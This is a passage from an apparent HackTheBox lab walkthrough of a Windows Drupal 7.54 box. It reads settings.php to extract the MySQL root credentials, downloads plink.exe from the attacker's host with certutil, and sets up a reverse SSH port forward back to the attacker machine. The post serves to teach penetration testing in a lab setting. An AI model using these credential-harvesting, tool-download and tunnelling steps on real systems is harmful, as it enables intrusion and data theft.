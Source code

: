 Lets see if we can find any `MySQL` credentials lying around. `Drupal`'s config is the first place we should check.

```
C:\inetpub\drupal-7.54\sites\default>type settings.php
...
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'root',
      'password' => 'mysql123!root',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);
...
```

Nice, we got the `root` credentials! Now to access the database, we could run the `MySQL` client that is installed on the machine but it will bug out our shell so lets do some port forwarding with `plink.exe` so that we can connect from our attacker machine instead.

First lets setup our `OpenSSH` server. As HackTheBox has disabled outgoing connections from the machines via port `22`, we will need to configure our `SSH` server to run on another port and start it.

```bash
$ cat /etc/ssh/sshd_config
...
Port 2222
...
$ sudo systemctl start ssh
```

Now we need to upload `plink.exe` to the machine which you can get from `/usr/share/windows-resources/binaries/`.

```
C:\inetpub\drupal-7.54> certutil -f -split -urlcache http://10.10.XX.XX/plink.exe C:\temp\plink.exe
****  Online  ****
  000000  ...
  04c000
CertUtil: -URLCache command completed successfully.
```

And then proceed to portforward.

```
C:\inetpub\drupal-7.54> C:\temp\plink.exe -l kali -pw kali 10.10.XX.XX -R 3306:127.0.0.1:3306 -P 2222
```
